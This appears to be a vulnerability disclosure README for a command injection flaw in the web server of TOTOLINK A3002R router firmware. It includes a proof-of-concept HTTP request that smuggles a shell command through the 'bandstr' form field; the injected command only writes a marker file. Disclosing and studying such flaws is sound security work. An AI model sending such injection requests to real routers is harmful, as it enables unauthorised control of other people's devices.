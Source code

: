 # totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

The firmware can be downloaded from this website[][1]
## detail

**addr**:0045a2a4

**function**:FUN_0045a1f8



![alt text](./img/image-2.png)

# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/map_del_device

Upgrade-Insecure-Requests: 1



sessionCheck=5ef3b954a1316eeedf1d36330046c0ca&submit-url=%2FformMapDelDevice.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20>/tmp/rec1.txt
```
![alt text](./img/image.png)

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
